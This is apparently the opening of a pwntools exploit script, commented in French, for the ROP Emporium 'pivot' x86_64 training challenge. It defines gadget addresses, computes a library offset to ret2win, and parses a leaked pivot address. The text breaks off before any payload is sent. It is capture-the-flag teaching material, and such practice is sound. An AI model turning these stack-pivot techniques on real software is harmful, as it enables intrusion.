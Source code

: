 ### Methode 2 python script

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
import time
import sys

# Ropemporium x86_64 pivot
# Version with leak of the got calling puts

# pwnme+180 : 
gs='''
b *pwnme+180
c
'''
# Offset avant ecrasement de l'adresse de RBP
offset=0x20

# Set up pwntools for the correct architecture
elf =  ELF('pivot')
context.binary=elf
context.log_level='info'
context(terminal=['tmux', 'split-window', '-h'])

useless_func=elf.symbols['uselessFunction']
puts=elf.symbols['puts']
got_foothold=elf.got['foothold_function']
plt_foothold=elf.plt['foothold_function']
pwnme=elf.symbols['pwnme']

# References ELF de la librairie
libelf = ELF('libpivot.so')

# Calcul de la distance entre ret2win et foothold_function
lib_foothold = libelf.symbols['foothold_function']
lib_ret2win = libelf.symbols['ret2win']
off_ret2win=lib_ret2win-lib_foothold

# Gadgets
g_leave = pwnme+181
g_ret = pwnme+182
g_poprax=0x04009bb
g_poprbp=0x0400808
g_poprdi=0x0400a33
g_addrax=0x04009c4
g_callrax=0x04006b0
g_movraxrax=0x04009c0


if len(sys.argv)>1 and sys.argv[1] == "-d":
    #gdb.attach(io,gs)
    io = gdb.debug([elf.path],gdbscript=gs)
else:
    io = process([elf.path])


io.recvuntil(b"to pivot:")
leak = io.recvline().rstrip()
leak = int(leak,16)
log.info(f"leak=0x{leak:x}")

```